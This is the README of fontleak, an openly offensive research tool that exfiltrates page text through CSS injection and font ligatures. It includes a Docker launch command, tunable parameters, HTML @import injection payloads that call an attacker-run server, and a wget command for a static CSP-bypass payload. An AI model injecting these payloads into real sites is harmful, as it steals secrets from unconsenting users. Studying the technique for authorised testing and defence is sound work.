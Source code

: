 [![License](https://img.shields.io/badge/License-Apache%202.0-blue.svg)](https://www.apache.org/licenses/LICENSE-2.0)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. For a detailed technical explanation, check out my [blog post](https://adragos.ro/fontleak).

## Getting Started

### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. default: env `SELECTOR` / `script:first-of-type`
- `attr`: Attribute to exfiltrate. default: env `ATTR` / `textContent`
- `parent`: Parent element of the target element (default: `body`, options: `body` or `head`). default: env `PARENT` / `body`
- `alphabet`: Characters to include in the font (default: env `ALPHABET` / `contents of string.printable`).

### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. default: env `LENGTH` / `100`
- `browser`: Browser compatibility (options: `all`, `chrome`, `firefox`, `safari`). default: env `BROWSER` / `all`

> **⚠️ Warning:** Size of payload.css is directly proportional to the `length` and `alphabet` size. Choosing a target browser can enable certain optimizations.

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.